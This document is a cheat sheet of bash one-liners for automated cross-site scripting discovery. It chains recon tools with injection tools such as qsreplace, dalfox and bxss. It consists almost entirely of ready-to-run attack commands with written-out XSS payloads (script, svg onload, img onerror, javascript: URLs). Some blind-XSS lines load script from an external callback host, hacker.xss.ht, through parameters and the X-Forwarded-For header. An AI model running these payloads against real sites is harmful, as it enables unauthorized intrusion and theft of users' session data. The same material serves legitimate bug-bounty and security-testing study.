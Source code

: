 ```bash
```
**BXSS - Bling XSS in Parameters**
```bash
subfinder -d target.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```
**Blind XSS In X-Forwarded-For Header**
```bash
subfinder -d target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"
```
**Gxss with single target**
```bash
echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
**XSS using gf with single target**
```bash
echo "http://testphp.vulnweb.com/" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf xss | anew 
```
**XSS without gf**
```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
`or`
```bash
gospider -S target.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
**XSS qsreplace**
```bash
gospider -a -s https://site.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
**XSS httpx**
```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo "(http|https)://[^/"].* | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>"
```
**Automating XSS using Dalfox, GF and Waybackurls**
```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
**XSS from javascript hidden params**
```bash
assetfinder *.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```
**XSS freq**
```bash
echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```
**Find xss**
```bash
cat targets | waybackurls | anew | grep "=" | gf xss | nilo | Gxss -p test | dalfox pipe --skip-bav --only-poc r --silence --skip-mining-dom --ignore-return 302,404,403
```
```bash
cat hosts.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```